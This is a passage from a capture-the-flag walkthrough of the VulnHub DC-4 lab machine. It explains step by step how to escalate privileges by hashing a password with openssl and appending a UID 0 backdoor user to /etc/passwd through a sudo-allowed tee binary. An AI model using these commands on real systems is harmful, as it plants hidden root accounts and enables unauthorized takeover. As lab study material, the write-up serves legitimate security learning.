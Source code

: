 Edit the following command, run it on your attackbox or DC-4, and then copy the output to clipboard:    
  `openssl passwd -1 -salt "<username>" "<password>"`  
  - `passwd` - tells openssl to compute the hash of a password  
  - `-1` - uses MD5 algorithm  
  - `-salt "imroot"` - salts the password with the value "imroot", which is the username I've chosen
  - `revsh3ll` - the password chosen for the user "imroot", which I'll append to /etc/passwd

![charles - openssl output](/images/CTF/VulnHub/DC-Series/DC-4/charles-openssl-output.png "charles - openssl output")


Now with a salted MD5 password, we can append it to the `/etc/passwd` file in linux using the `tee` binary.
Normally when adding a new user to a linux system, non-system UserIDs start at 1000 and this would normally be done by running `adduser <username>`.  
Since we have root privs to `tee`, we'll be adding a user with a UserID of 0(zero). This will allow us to gain root privs on DC-4.

### Pwn DC-4

Here's a one-liner using the following creds: <u>imroot:revsh3ll</u>  

`echo 'imroot:$1$imroot$1dH55UU8nz7m..Li4V7Zj0:0:0:root:/root:/bin/bash' | sudo /usr/bin/teehee -a /etc/passwd`  
- `echo` - echo the string to be appended to `/etc/passwd`  
- `'imroot:$1$imroot$1dH55UU8nz7m..Li4V7Zj0:0:0:root:/root:/bin/bash'` - string to be appended  
format = username:saltedMD5password:UserID:GroupID:homedirectory:shell  

- `|` - pipes the echo command into `/usr/bin/teehee` binary  
- `sudo /usr/bin/teehee -a /etc/passwd` - takes in standard input of our echo'd value and runs `teehee`, with root privs, and appends(`-a`) it to `/etc/passwd`  

![DC-4 - ROOTED!!](/images/CTF/VulnHub/DC-Series/DC-4/root-dc-4.png "DC-4 - ROOTED!!")
